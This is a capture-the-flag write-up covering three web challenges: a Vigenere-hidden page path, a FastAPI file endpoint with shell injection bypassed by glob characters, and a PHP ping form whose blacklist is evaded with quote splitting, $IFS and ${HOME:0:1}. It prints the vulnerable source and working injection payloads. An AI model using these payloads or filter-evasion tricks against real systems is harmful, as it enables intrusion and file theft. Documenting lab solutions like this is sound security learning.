








***
# Table of Contents
- [Table of Contents](#table-of-contents)
    - [power of js](#power-of-js)
        - [Challenge Description](#challenge-description)
    - [Imagery](#imagery)
        - [Challenge Description](#challenge-description-1)
    - [Welcome to admin portal](#welcome-to-admin-portal)
        - [Challenge Description](#challenge-description-2)

***

### power of js

---

##### Challenge Description
Participants are to recover the flag by taking a look at the Javascript code and find the path.

http://challenge2.lagncrash.com:14000/

---

In the index.js file from http://challenge2.lagncrash.com:14000/ , there is some lines that were commented out



Using a Vigenere cipher decode with `johndoe` as the key to decode p1, p2 and p3 we get thisisthemostsecretpagethatyoucantevenguessla.html





Going to `http://challenge2.lagncrash.com:14000/thisisthemostsecretpagethatyoucantevenguessla.html` we can get the flag `LNC{Cli3nt_sid3_c0ntr0l_bypa55}`

### Imagery

---

##### Challenge Description

Hey I found this cool website. I wonder if they actually hide smth on the website.

http://challenge1.lagncrash.com:18675/

---

Going to the webpage, we see an image. Inspecting the source, it shows that the image is at `/file?name=img/image.jpg`

Goign to `/file`, we can get the source code

```python
from fastapi import FastAPI, HTTPException, Request
from fastapi.responses import HTMLResponse, Response
from user_agents import parse
from os import path
import re
import subprocess

app = FastAPI()

def check_request(request):
    user_agent = None
    for header in request['headers']:
        if header[0] == b'user-agent':
            user_agent = header[1].decode()

    if not user_agent:
        return False
        
    user_agent = parse(user_agent)
    if user_agent.is_bot:
        return False
    
    return True

@app.get('/', response_class=HTMLResponse)
async def index(request: Request):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    with open('index.html', 'r') as file:
        html = file.read()
        return HTMLResponse(html)

allowed_chars = re.compile(r'^[a-zA-Z0-9\?/\.]*$')
def check_malicious_filename(name):
    if not allowed_chars.match(name):
        print("yessssssssssssss")
        return True

    if 'etc' in name or 'tmp' in name or 'flag.txt' in name:
        return True
    return path.isabs(name)

@app.get('/file')
async def get_file(request: Request, name='main.py'):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    if check_malicious_filename(name):
        raise HTTPException(400, 'Malicious request received')
    
    try:
        process = subprocess.check_output(['/bin/bash',"-c", "cat " + name])
    except subprocess.CalledProcessError:
        raise HTTPException(400, 'Malicious request received')

    return Response(process)
```

Bypass the regular expression check using ?
Going to `/file?name=????.???`, we can get the flag `LNC{R3T4ArD_IM4G3S}`

### Welcome to admin portal

---

##### Challenge Description

Participants are to recover the flag by exploiting a remote command execution vulnerability. Some of the more common special characters and commands are blacklisted ... at least thats what the developer thinks :)

http://challenge1.lagncrash.com:12860/

Going to the url, we see that it accepts an IP address and pings it


Adding '' in commands we can execute commands

Example: `127.0.0.1;l''s`



when trying to running `;ca''t index.php`, it did not return any value
After researching, we found that we could use `$IFS` for space
we tried `;ca''t$IFSindex.php` but it did not return any output

we used `;pw''d;` to find out which directory we are at, it returned `/var/www/html` 

After trying `;ca''t$(IFS)/var/www/html/index.php` and did not return any output, we researched more to find that we could replace / with `${HOME:0:1}`

After running `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}index.php`, we could get the page source code
```php
<?php 
    if(isset($_POST["ip"])){
        $input = $_POST["ip"];
        echo "<hr /><br />";

    #remove most of the special characters
    $blacklist = array(" ","&","|","@","%","^","~","`","<",">",",","\\","/");
    $input = str_replace($blacklist,"", $input);

    #remove some of the common commands that are used
    $blacklist = array("ls","cat","less","tail","more","whoami","pwd","busybox","echo");
    $input = str_replace($blacklist,"", $input);

       $output = shell_exec("ping -c 1 ".$input);

    if(isset($_GET["debug"]) == true){
        echo "<div>ping -c 1 ".$input."</div>";
    }

    echo "<pre>".$output."</pre>";

    #Great! Now try finding the secret file 
    }
?>
```

After running `127.0.0.1;l''s$IFS-la` we can list the current directory


Seeing that there is a file named `...`, we can cat it by using `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}...` to get the flag `LNC{Wh1t3_0v3r_bl4ck}`

